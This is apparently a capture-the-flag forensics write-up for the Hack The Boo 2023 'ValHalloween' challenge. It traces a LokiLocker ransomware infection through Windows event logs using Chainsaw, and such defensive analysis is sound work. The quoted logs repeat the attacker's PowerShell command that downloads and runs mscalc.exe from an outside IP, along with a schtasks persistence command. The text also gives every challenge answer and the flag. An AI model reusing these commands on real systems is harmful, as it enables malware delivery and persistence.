

# [Hack The Boo 2023](index.md) - Forensics - ValHalloween

> As I was walking the neighbor's streets for some Trick-or-Treat, a strange man approached me, saying he was dressed as ""The God of Mischief!"". He handed me some candy and disappeared. Among the candy bars was a USB in disguise, and when I plugged it into my computer, all my files were corrupted! First, spawn the haunted Docker instance and connect to it! Dig through the horrors that lie in the given Logs and answer whatever questions are asked of you!

We are provided with a zip file containing some captured Windows logs. We're also provided with an IP address and port to connect to.

Connecting to the IP and port, we are prompted with some questions about the log files that we've been given.

```
What are the IP address and port of the server from which the malicious actors downloaded the ransomware? (for example: 98.76.54.32:443)
> 
```

I remembered that in the [HackTheBox Cyber Apocalypse 2023 - The Cursed Mission](../htb-2023-cyber-apocalypse/) CTF, there was a challenge ([Packet Cyclone](../htb-2023-cyber-apocalypse/for-packet-cyclone))that walked the user through using a utility called [Chainsaw](https://github.com/WithSecureLabs/chainsaw). I've wanted to sit down and get more familliar with Chainsaw since then, so it looks like here is a good opportunity to put it to use. This article will _not_ be an especially good example of how to use Chainsaw - I went for speed here, not accuracy, and I spent a lot of time looking over the results. 

```
What are the IP address and port of the server from which the malicious actors downloaded the ransomware? (for example: 98.76.54.32:443)
> 
```

We can search for IP addresses using regular expressions with this command:

```
chainsaw.exe search -e "((25[0-5]|(2[0-4]|1\d|[1-9]|)\d)\.?\b){4}" .\forensics_valhalloween\
```

This returns a _lot_ of logs (2612 to be precise), so we probably could have refined this search a bit, but the last one in the list happens to look fairly suspicious:

```
Event:
  EventData:
    Binary: null
    Data:
    - Stopped
    - Available
    - "\tNewEngineState=Stopped\r\n\tPreviousEngineState=Available\r\n\r\n\tSequenceNumber=15\r\n\r\n\tHostName=ConsoleHost\r\n\tHostVersion=5.1.19041.3031\r\n\tHostId=38c9afb1-adc2-427a-b407-845545ddfe41\r\n\tHostApplication=powershell.exe (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','C:\\Users\\HoaGay\\AppData\\Local\\Temp\\mscalc.exe');start-process 'C:\\Users\\HoaGay\\AppData\\Local\\Temp\\mscalc.exe'\r\n\tEngineVersion=5.1.19041.3031\r\n\tRunspaceId=8e8abfba-b4d1-4d1f-83a1-8dff31c8ac15\r\n\tPipelineId=\r\n\tCommandName=\r\n\tCommandType=\r\n\tScriptName=\r\n\tCommandPath=\r\n\tCommandLine="
  System:
    Channel: Windows PowerShell
    Computer: DESKTOP-V0F35DT
    Correlation: null
    EventID: 403
    EventID_attributes:
      Qualifiers: 0
    EventRecordID: 187
    Execution_attributes:
      ProcessID: 0
      ThreadID: 0
    Keywords: '0x80000000000000'
    Level: 4
    Opcode: 0
    Provider_attributes:
      Name: PowerShell
    Security: null
    Task: 4
    TimeCreated_attributes:
      SystemTime: 2023-09-20T03:03:24.823719Z
    Version: 0
Event_attributes:
  xmlns: http://schemas.microsoft.com/win/2004/08/events/event
```

It's powershell running a command to download the file `http://103.162.14.116:8888/mscalc.exe`, which looks pretty suspicious to me.

```
What are the IP address and port of the server from which the malicious actors downloaded the ransomware? (for example: 98.76.54.32:443)
> 103.162.14.116:8888

According to the sysmon logs, what is the MD5 hash of the ransomware? (for example: 6ab0e507bcc2fad463959aa8be2d782f)
>
```

Looks like we were correct.

```
According to the sysmon logs, what is the MD5 hash of the ransomware? (for example: 6ab0e507bcc2fad463959aa8be2d782f)
>
```

We can find strings that look like MD5 hashes using this recular expression:
```
```

But, this produced way too many results to be useful.

If we're assuming that the `mscalc.exe` from the previous answer is the malware, we can use this search string to find entries that contain `mscalc.exe` and `MD5=`.

```
.\chainsaw search -e ".*mscalc.exe.*MD5.*" .\forensics_valhalloween\
```

And we find 4 hits, the last one of which is the MD5 that we need to answer the question.

```
Event:
  EventData:
    CommandLine: '"C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe" '
    Company: Microsoft
    CurrentDirectory: C:\Users\HoaGay\Documents\Subjects\
    Description: svchost
    FileVersion: 1.0.0.0
    Hashes: MD5=B94F3FF666D9781CB69088658CD53772
    Image: C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe
    IntegrityLevel: High
    LogonGuid: 335CB4AA-604E-650A-56B4-040000000000
    LogonId: '0x4b456'
    OriginalFileName: svchost.exe
    ParentCommandLine: '"C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe" '
    ParentImage: C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe
    ParentProcessGuid: 335CB4AA-60FC-650A-0201-000000000D00
    ParentProcessId: 7528
    ParentUser: DESKTOP-V0F35DT\HoaGay
    ProcessGuid: 335CB4AA-611E-650A-1701-000000000D00
    ProcessId: 3024
    Product: svchost
    RuleName: '-'
    TerminalSessionId: 1
    User: DESKTOP-V0F35DT\HoaGay
    UtcTime: 2023-09-20 03:03:58.215
  System:
    Channel: Microsoft-Windows-Sysmon/Operational
    Computer: DESKTOP-V0F35DT
    Correlation: null
    EventID: 1
    EventRecordID: 3927
    Execution_attributes:
      ProcessID: 2260
      ThreadID: 552
    Keywords: '0x8000000000000000'
    Level: 4
    Opcode: 0
    Provider_attributes:
      Guid: 5770385F-C22A-43E0-BF4C-06F5698FFBD9
      Name: Microsoft-Windows-Sysmon
    Security_attributes:
      UserID: S-1-5-18
    Task: 1
    TimeCreated_attributes:
      SystemTime: 2023-09-20T03:03:58.221914Z
    Version: 5
Event_attributes:
  xmlns: http://schemas.microsoft.com/win/2004/08/events/event
```

The first two events are the dropper script - the script that _downloads and runs_ the ransomware - the actual ransomware in this case is `mscalc.exe`.

```
B94F3FF666D9781CB69088658CD53772
```

```
According to the sysmon logs, what is the MD5 hash of the ransomware? (for example: 6ab0e507bcc2fad463959aa8be2d782f)
> B94F3FF666D9781CB69088658CD53772

Based on the hash found, determine the family label of the ransomware in the wild from online reports such as Virus Total, Hybrid Analysis, etc. (for example: wannacry)
>
```

This one is easy - we can search [VirusTotal](virustotal) for MD5 hashes, and it should tell us if anything ever submitted to their platform with that hash has been identified as something malicious.

Turns out, it has...



And it looks like it's `ransomware.lokilocker/msil` (the challenge only wants the `lokilocker` part).

```
Based on the hash found, determine the family label of the ransomware in the wild from online reports such as Virus Total, Hybrid Analysis, etc. (for example: wannacry)
> lokilocker

What is the name of the task scheduled by the ransomware? (for example: WindowsUpdater)
>
```

If we look for all events with "Task Scheduler" in them, we find only 3 hits, and the last one happens to be the one we're looking for:

```
.\chainsaw search -e ".*Task Scheduler.*" .\forensics_valhalloween\
```

```
---
Event:
  EventData:
    CommandLine: schtasks  /CREATE /SC ONLOGON /TN Loki /TR C:\Users\HoaGay\AppData\Roaming\winlogon.exe /RU SYSTEM /RL HIGHEST /F
    Company: Microsoft Corporation
    CurrentDirectory: C:\Windows\system32\
    Description: Task Scheduler Configuration Tool
    FileVersion: 10.0.19041.1503 (WinBuild.160101.0800)
    Hashes: MD5=76CD6626DD8834BD4A42E6A565104DC2
    Image: C:\Windows\System32\schtasks.exe
    IntegrityLevel: High
    LogonGuid: 335CB4AA-604E-650A-56B4-040000000000
    LogonId: '0x4b456'
    OriginalFileName: schtasks.exe
    ParentCommandLine: '"C:\Windows\System32\cmd.exe" /C schtasks /CREATE /SC ONLOGON /TN Loki /TR C:\Users\HoaGay\AppData\Roaming\winlogon.exe /RU SYSTEM /RL HIGHEST /F'
...
```

`winlogon.exe` isn't normally run from an AppData\Roaming folder for a user, so this looks pretty suspicious. 

`schtasks` is the command line interface for the Task Scheduler, and we can see here that it creates an event that runs on login (`/SC ONLOGON`), named "Loki" (`/TN Loki`), that runs a malicious exe as the system account with the highest "run level" (`/RU SYSTEM /RL HIGHEST`).

We can find what all these flags mean by running this command in Windows:

```
schtasks /create /?
```

```
What is the name of the task scheduled by the ransomware? (for example: WindowsUpdater)
> Loki

What are the parent process name and ID of the ransomware process? (for example: svchost.exe_4953)
>
```

This command will find any events with both `mscalc.exe` and `ParentProcessId` in it, and it returns 21 results that we have to go through.

```
.\chainsaw search -e ".*mscalc.exe.*ParentProcessId.*" .\forensics_valhalloween
```

We find all the malicious commands that the malware runs among these events, but we're looking for the parent of the actual ransomware process. 

In the event we found for the first question, we saw the command that the "dropper" script used:

```
"\tNewEngineState=Stopped\r\n\tPreviousEngineState=Available\r\n\r\n\tSequenceNumber=15\r\n\r\n\tHostName=ConsoleHost\r\n\tHostVersion=5.1.19041.3031\r\n\tHostId=38c9afb1-adc2-427a-b407-845545ddfe41\r\n\tHostApplication=powershell.exe (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','C:\\Users\\HoaGay\\AppData\\Local\\Temp\\mscalc.exe');start-process 'C:\\Users\\HoaGay\\AppData\\Local\\Temp\\mscalc.exe'\r\n\tEngineVersion=5.1.19041.
```

This is powershell, and we can tell that it downloaded a file named `mscalc.exe` from an IP address, and then ran it with `start-process`. So, we can assume we're looking for an event where `mscalc.exe` is in the "Command" field (and probably the "Image" field as well), and where it's parent process is the powershell interpreter.

Looking through the 21 events we got with `.\chainsaw search -e ".*mscalc.exe.*ParentProcessId.*" .\forensics_valhalloween`, near the top we find these two events:

```
Event:
  EventData:
    CommandLine: powershell.exe  (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe');start-process 'C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe'
    Company: Microsoft Corporation
    CurrentDirectory: C:\Users\HoaGay\Documents\Subjects\
    Description: Windows PowerShell
    FileVersion: 10.0.19041.3393 (WinBuild.160101.0800)
    Hashes: MD5=DFD66604CA0898E8E26DF7B1635B6326
    Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
    IntegrityLevel: Medium
    LogonGuid: 335CB4AA-604E-650A-8DB4-040000000000
    LogonId: '0x4b48d'
    OriginalFileName: PowerShell.EXE
    ParentCommandLine: c:\\microsoft\\office\\word\\document\\..\\..\\..\\..\\windows\\system32\\cmd.exe /c powershell.exe (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','%temp%\mscalc.exe');start-process '%temp%\mscalc.exe'
    ParentImage: C:\Windows\System32\cmd.exe
    ParentProcessGuid: 335CB4AA-60FA-650A-FE00-000000000D00
    ParentProcessId: 8776
    ParentUser: DESKTOP-V0F35DT\HoaGay
    ProcessGuid: 335CB4AA-60FB-650A-0001-000000000D00
    ProcessId: 3856
    Product: Microsoft® Windows® Operating System
    RuleName: '-'
    TerminalSessionId: 1
    User: DESKTOP-V0F35DT\HoaGay
    UtcTime: 2023-09-20 03:03:23.066
  System:
    Channel: Microsoft-Windows-Sysmon/Operational
    Computer: DESKTOP-V0F35DT
    Correlation: null
    EventID: 1
    EventRecordID: 3839
    Execution_attributes:
      ProcessID: 2260
      ThreadID: 552
    Keywords: '0x8000000000000000'
    Level: 4
    Opcode: 0
    Provider_attributes:
      Guid: 5770385F-C22A-43E0-BF4C-06F5698FFBD9
      Name: Microsoft-Windows-Sysmon
    Security_attributes:
      UserID: S-1-5-18
    Task: 1
    TimeCreated_attributes:
      SystemTime: 2023-09-20T03:03:23.074103Z
    Version: 5
Event_attributes:
  xmlns: http://schemas.microsoft.com/win/2004/08/events/event

---
Event:
  EventData:
    CommandLine: '"C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe" '
    Company: Microsoft
    CurrentDirectory: C:\Users\HoaGay\Documents\Subjects\
    Description: svchost
    FileVersion: 1.0.0.0
    Hashes: MD5=B94F3FF666D9781CB69088658CD53772
    Image: C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe
    IntegrityLevel: Medium
    LogonGuid: 335CB4AA-604E-650A-8DB4-040000000000
    LogonId: '0x4b48d'
    OriginalFileName: svchost.exe
    ParentCommandLine: powershell.exe  (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe');start-process 'C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe'
    ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
    ParentProcessGuid: 335CB4AA-60FB-650A-0001-000000000D00
    ParentProcessId: 3856
    ParentUser: DESKTOP-V0F35DT\HoaGay
    ProcessGuid: 335CB4AA-60FC-650A-0201-000000000D00
    ProcessId: 7528
    Product: svchost
    RuleName: '-'
    TerminalSessionId: 1
    User: DESKTOP-V0F35DT\HoaGay
    UtcTime: 2023-09-20 03:03:24.802
  System:
    Channel: Microsoft-Windows-Sysmon/Operational
    Computer: DESKTOP-V0F35DT
    Correlation: null
    EventID: 1
    EventRecordID: 3844
    Execution_attributes:
      ProcessID: 2260
      ThreadID: 552
    Keywords: '0x8000000000000000'
    Level: 4
    Opcode: 0
    Provider_attributes:
      Guid: 5770385F-C22A-43E0-BF4C-06F5698FFBD9
      Name: Microsoft-Windows-Sysmon
    Security_attributes:
      UserID: S-1-5-18
    Task: 1
    TimeCreated_attributes:
      SystemTime: 2023-09-20T03:03:24.808584Z
    Version: 5
Event_attributes:
  xmlns: http://schemas.microsoft.com/win/2004/08/events/event
```

The above events describe a powershell script starting `mscalc.exe`, which is exactly what we're looking for.

```
What are the parent process name and ID of the ransomware process? (for example: svchost.exe_4953)
> powershell.exe_3856

Following the PPID, provide the file path of the initial stage in the infection chain. (for example: D:\Data\KCorp\FirstStage.pdf)
>
```


If we follow the events backwards through their parents, we should be able to find what originally started running powershell.

```
.\chainsaw search -t "Event.EventData.ProcessId: =3856" .\forensics_valhalloween
```

The first event with this ID is:

```
Event:
  EventData:
    CommandLine: powershell.exe  (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe');start-process 'C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe'
    Company: Microsoft Corporation
    CurrentDirectory: C:\Users\HoaGay\Documents\Subjects\
    Description: Windows PowerShell
    FileVersion: 10.0.19041.3393 (WinBuild.160101.0800)
    Hashes: MD5=DFD66604CA0898E8E26DF7B1635B6326
    Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
    IntegrityLevel: Medium
    LogonGuid: 335CB4AA-604E-650A-8DB4-040000000000
    LogonId: '0x4b48d'
    OriginalFileName: PowerShell.EXE
    ParentCommandLine: c:\\microsoft\\office\\word\\document\\..\\..\\..\\..\\windows\\system32\\cmd.exe /c powershell.exe (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','%temp%\mscalc.exe');start-process '%temp%\mscalc.exe'
    ParentImage: C:\Windows\System32\cmd.exe
    ParentProcessGuid: 335CB4AA-60FA-650A-FE00-000000000D00
    ParentProcessId: 8776
    ParentUser: DESKTOP-V0F35DT\HoaGay
    ProcessGuid: 335CB4AA-60FB-650A-0001-000000000D00
    ProcessId: 3856
    Product: Microsoft® Windows® Operating System
    RuleName: '-'
    TerminalSessionId: 1
    User: DESKTOP-V0F35DT\HoaGay
    UtcTime: 2023-09-20 03:03:23.066
```

It has a parent process id of 8776, so lets see what that was.

```
.\chainsaw search -t "Event.EventData.ProcessId: =8776" .\forensics_valhalloween
```

```
Event:
  EventData:
    CommandLine: c:\\microsoft\\office\\word\\document\\..\\..\\..\\..\\windows\\system32\\cmd.exe /c powershell.exe (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','%%temp%%\mscalc.exe');start-process '%%temp%%\mscalc.exe'
    Company: Microsoft Corporation
    CurrentDirectory: C:\Users\HoaGay\Documents\Subjects\
    Description: Windows Command Processor
    FileVersion: 10.0.19041.746 (WinBuild.160101.0800)
    Hashes: MD5=8A2122E8162DBEF04694B9C3E0B6CDEE
    Image: C:\Windows\System32\cmd.exe
    IntegrityLevel: Medium
    LogonGuid: 335CB4AA-604E-650A-8DB4-040000000000
    LogonId: '0x4b48d'
    OriginalFileName: Cmd.Exe
    ParentCommandLine: '"C:\Program Files\Microsoft Office\Office15\WINWORD.EXE" /n "C:\Users\HoaGay\Documents\Subjects\Unexpe.docx" /o ""'
    ParentImage: C:\Program Files\Microsoft Office\Office15\WINWORD.EXE
    ParentProcessGuid: 335CB4AA-60F8-650A-FA00-000000000D00
    ParentProcessId: 7280
    ParentUser: DESKTOP-V0F35DT\HoaGay
    ProcessGuid: 335CB4AA-60FA-650A-FE00-000000000D00
    ProcessId: 8776
    Product: Microsoft® Windows® Operating System
    RuleName: '-'
    TerminalSessionId: 1
    User: DESKTOP-V0F35DT\HoaGay
    UtcTime: 2023-09-20 03:03:22.900
```

We likely have our answer in the `ParentCommandLine` field of this event, but lets complete the analogy...
The next event up the chain is `7280`...

```
.\chainsaw search -t "Event.EventData.ProcessId: =7280" .\forensics_valhalloween
```
```
Event:
  EventData:
    CommandLine: '"C:\Program Files\Microsoft Office\Office15\WINWORD.EXE" /n "C:\Users\HoaGay\Documents\Subjects\Unexpe.docx" /o ""'
    Company: Microsoft Corporation
    CurrentDirectory: C:\Users\HoaGay\Documents\Subjects\
    Description: Microsoft Word
    FileVersion: 15.0.4420.1017
    Hashes: MD5=DA36E8EF463B0D7038399E515E212325
    Image: C:\Program Files\Microsoft Office\Office15\WINWORD.EXE
    IntegrityLevel: Medium
    LogonGuid: 335CB4AA-604E-650A-8DB4-040000000000
    LogonId: '0x4b48d'
    OriginalFileName: WinWord.exe
    ParentCommandLine: C:\Windows\Explorer.EXE
    ParentImage: C:\Windows\explorer.exe
    ParentProcessGuid: 335CB4AA-6050-650A-6400-000000000D00
    ParentProcessId: 3952
    ParentUser: DESKTOP-V0F35DT\HoaGay
    ProcessGuid: 335CB4AA-60F8-650A-FA00-000000000D00
    ProcessId: 7280
    Product: Microsoft Office 2013
    RuleName: '-'
    TerminalSessionId: 1
    User: DESKTOP-V0F35DT\HoaGay
    UtcTime: 2023-09-20 03:03:20.254
```

And we can see that it's parent is `explorer.exe`, so this is probably the end of the chain - looks like a malicious word file was opened in Microsoft Word (`WINWORD.EXE`), and that file was `C:\Users\HoaGay\Documents\Subjects\Unexpe.docx`.


```
Following the PPID, provide the file path of the initial stage in the infection chain. (for example: D:\Data\KCorp\FirstStage.pdf)
> C:\Users\HoaGay\Documents\Subjects\Unexpe.docx

When was the first file in the infection chain opened (in UTC)? (for example: 1975-04-30_12:34:56)
>
```

In the last event we referenced above, the `UtcTime` field says that word was opened at `2023-09-20 03:03:20.254`.

```
When was the first file in the infection chain opened (in UTC)? (for example: 1975-04-30_12:34:56)
> 2023-09-20_03:03:20
```

And with this answer, we're finished, and we are given the flag

```
HTB{N0n3_c4n_ru1n_th3_H@ll0w33N_Sp1r1t}
```
